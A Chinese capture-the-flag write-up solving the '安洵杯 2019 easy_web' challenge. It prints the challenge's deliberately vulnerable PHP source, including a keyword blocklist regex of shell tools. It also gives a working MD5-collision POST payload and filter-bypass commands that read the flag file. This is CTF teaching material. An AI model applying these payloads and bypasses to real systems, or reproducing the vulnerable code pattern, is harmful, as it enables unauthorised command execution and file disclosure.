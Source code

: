 # \[安洵杯 2019]easy\_web

## \[安洵杯 2019]easy\_web

## 考点

* fastcoll进行md5碰撞
* 命令执行bypass

## wp

进去发现URL有问题`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`

尝试对其base64解码，发现解不出，加个`=`再试试，两次base64，一次hex

```
TXpVek5UTTFNa1UzTURaRk5qYz0=
MzUzNTM1MkU3MDZFNjc=
3535352E706E67
555.png
```

读取index.php，`index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

得到代码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

MD5是强制转换为string再比较，只能使用fastcoll进行碰撞

![](<../../.gitbook/assets/image (20) (1).png>)

`fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt`

```
a=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%A9p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%A6%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6de%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%3FVZ%9A%E8&b=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%29p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F%B5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%26%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA%B2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6%E4d%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%BFVZ%9A%E8
```

然后绕命令执行，虽然禁用了ls，但是dir还可以使用

![](<../../.gitbook/assets/image (10) (1) (1).png>)

空格不能直接敲，要用用%20代替，

过滤了`flag`和`cat`，用`\`绕过，`?cmd=ca\t%20/fl\ag` 查看flag

或者是`?cmd=sort%20/fl\ag`
